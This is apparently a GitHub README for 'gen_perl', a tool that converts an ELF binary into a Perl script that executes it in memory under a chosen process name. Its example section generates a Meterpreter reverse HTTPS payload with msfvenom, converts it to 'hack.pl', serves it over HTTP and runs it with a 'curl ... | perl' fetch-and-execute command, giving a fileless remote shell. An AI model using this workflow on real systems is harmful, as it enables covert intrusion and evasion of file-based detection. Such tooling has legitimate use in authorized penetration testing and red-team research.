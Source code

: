 # gen_perl

A script to generate perl script for execute ELF in memory.

## Usage
```
git clone https://github.com/purpleroc/gen_perl
cd gen_perl
chmod +x gen_perl.sh
./gen_perl.sh elf_file perl_script.pl process_name
```

## Example
```
# generate reverse_https elf
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=8443 -f elf -o reverse_https
# convert elf to hack.pl
./gen_perl.sh reverse_https hack.pl hello_hacker
# start http server
python -m SimpleHTTPServer 8080
# execute hack.pl
curl http://127.0.0.1:8080/hack.pl | perl
```

### meterpreter
![meterpreter](https://github.com/purpleroc/gen_perl/raw/master/pic/msf.png)

### server
> process info
![process_info](https://github.com/purpleroc/gen_perl/raw/master/pic/ps.png)

> file info
![file_info](https://github.com/purpleroc/gen_perl/raw/master/pic/file.png)
